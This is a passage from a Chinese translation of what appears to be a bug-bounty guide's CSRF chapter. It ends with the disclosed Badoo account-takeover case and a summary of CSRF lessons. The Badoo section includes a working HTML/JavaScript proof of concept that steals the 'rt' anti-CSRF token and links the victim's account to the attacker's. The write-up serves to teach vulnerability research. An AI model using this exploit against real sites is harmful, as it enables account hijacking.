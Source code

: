 > 重要结论

> 这种情况下，这个漏洞可以使用代理服务器来发现，例如 Burp 或者 Firefox 的 Tamper Data，来观察发送给 Shopify 的请求，并主要到这个请求使用 GET 方式来执行。由于这是个破坏性操作，而 GET 请求不应该修改任何服务器上的数据，这应该是一些需要关注的事情。

### 3\. Badoo 账户的完整控制

难度：中

URL：`https://badoo.com`

报告链接：`https://hackerone.com/reports/127703`

报告日期：2016.4.1

奖金：$852

描述：

如果你仔细检查 Badoo ，你会发现，它们通过包含 URL 参数`rt`来防御 CSRF，它只有 5 个位数（至少在我写这篇的时候）。虽然我在 Badoo 入驻 HackerOne 的时候就注意到了，我并没有找到利用它的方式，但是`zombiehelp54`找到了。

发现`rt`参数以及其值之后，它也注意到了，参数一户在所有 JSON 响应中都返回。不幸的是，这并没有什么帮助，因为 CORS 保护了 Badoo，攻击者无法读取这些响应，所以它继续挖掘。

最终，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，这个文件可以由攻击者任意读取，而不需要受害者做什么，除了浏览这个恶意页面。这里是它提供的代码。

```html
<html>
<head>
<title>Badoo account take over</title>
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript>
</head>
<body>
<script>
function getCSRFcode(str) {
    return str.split('=')[2];
}
    window.onload = function(){
    var csrf_code = getCSRFcode(url_stats);
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code;
    window.location = csrf_url;
};
</script>
```

本质上，当受害者加载此页面时，它会调用 Badoo 的脚本，为用户获取`rt`参数，之后代表受害者进行调用，这里，它将受害者的账户链接到了攻击者的，本上上完成了账户的控制。

> 重要结论

> 无风不起浪。这里，攻击者注意到了`rt`参数在不同位置返回，特别是 JSON 响应，因此，它正确猜测了，它可能出现在一些可以利用的地方，这里是 JS 文件。

> 继续干吧，如果你觉得一些东西可能会发生，一定要继续挖掘。当你访问目标站点或应用时，使用 Burp 检查所有被调用的资源。

## 总结

CSRF 表示另一个攻击向量，并且可能在受害者不知道，或者不主动执行操作的情况下发生。CSRF 漏洞的发现可能需要一些机智，同样，也需要测试任何东西的渴望。

通常，如果站点执行 POST 请求，Web 表单都统一由应用框架保护，例如 Rails，但是 API 又是另外一个事情。例如， Shopify 使用了 RoR 编写，它对所有表单默认提供了 CSRF 保护（当然也可以关掉）。但是，显而易见，这对于使用框架创建的 API 不一定成立。最后，一定要观察任何通过 GET 请求执行的，修改服务器数据的调用（例如删除操作）。
